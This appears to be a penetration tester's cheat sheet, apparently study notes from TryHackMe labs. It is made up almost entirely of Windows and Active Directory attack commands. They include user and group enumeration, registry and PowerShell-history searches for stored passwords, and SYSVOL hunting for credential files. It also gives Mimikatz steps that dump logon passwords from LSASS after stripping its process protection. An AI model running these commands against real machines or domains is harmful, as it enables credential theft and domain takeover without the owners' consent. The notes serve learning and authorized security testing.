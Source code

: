 net user <br>
net group<br>
net localgroup<br>
net localgroup administrators<br>
## Updates
wmic qfe get Caption, Description<br>
## Credentials
reg query HKLM /f password /t REG_SZ /s<br>
reg query HKCU /f password /t REG_SZ /s<br>
cat C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt<br>
Get-AdUser -Filter * -Properties * | Select Name, Description<br>
## Credentials Mimikatz
sekurlsa::logonpasswords<br>
If We Get 0x00005 Error Then:<br>
!processprotect /process:lsass.exe /remove<br>
!+<br>
sekurlsa::logonpasswords<br>
# Active Directory
## Basic
## Note: use run-tool to check MMC if rdp is available

systeminfo | findstr Domain<br>
Get-ADUser -Filter *<br>
Get-ADUser -Filter * -SearchBase "CN=Users,DC=domain,DC=COM"<br>
Get-ADUser -Filter * -SearchBase "OU=DOM,DC=domain,DC=COM"<br>
Get-ADUser -Identity username -Server domain.local -Properties * <br>
Get-ADUser -Filter 'Name -like "*stevens"' -Server domain.local | Format-Table Name,SamAccountName -A<br>
Get-ADGroup -Identity Administrators -Server domain.local<br>
Get-ADGroupMember -Identity Administrators -Server sa.domain.local<br>
$ChangeDate = New-Object DateTime(2022, 02, 28, 12, 00, 00)<br>
Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects -Server sa.domain.local<br>
Get-ADObject -Filter 'badPwdCount -gt 0' -Server sa.domain.local<br>
Get-ADDomain -Server sa.domain.local<br>

## Change password of user 
Set-ADAccountPassword -Identity gordon.stevens -Server za.tryhackme.com -OldPassword (ConvertTo-SecureString -AsPlaintext "old" -force) -NewPassword (ConvertTo-SecureString -AsPlainText "new" -Force)<br>

dir \\sa.domain.local\SYSVOL\ (check for password files, certificates and other excel files) <br>
net user /domain<br>
net user zoe.marshall /domain<br>
net group /domain<br>
net group "Tier 1 Admins" /domain<br>
net accounts /domain<br>

